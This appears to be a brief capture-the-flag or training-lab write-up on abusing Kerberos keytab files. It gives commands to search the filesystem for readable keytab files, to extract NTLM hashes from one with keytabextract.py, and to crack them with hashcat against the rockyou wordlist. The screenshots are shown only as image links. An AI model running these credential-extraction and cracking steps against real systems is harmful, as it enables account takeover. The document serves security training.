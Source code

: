 **Look for a keytab file that you have read and write access. Submit the file name as a response.**

`find / -name`` `_`keytab`_` ``-ls 2>/dev/null`

<figure><img src=".gitbook/assets/image (57).png" alt=""><figcaption></figcaption></figure>

* read\&write -> CARLOS.KEYTAB

**Extract the hashes from the keytab file you found, crack the password, log in as the user and submit the flag in the user's home directory.**

`python3 /opt/keytabextract.py carlos.keytab`

<figure><img src=".gitbook/assets/image (58).png" alt=""><figcaption></figcaption></figure>

`nano hash.txt`&#x20;

`hashcat hash.txt -m 1000 -a 0 /usr/share/wordlists/rockyou.txt`

<figure><img src=".gitbook/assets/image (59).png" alt=""><figcaption></figcaption></figure>
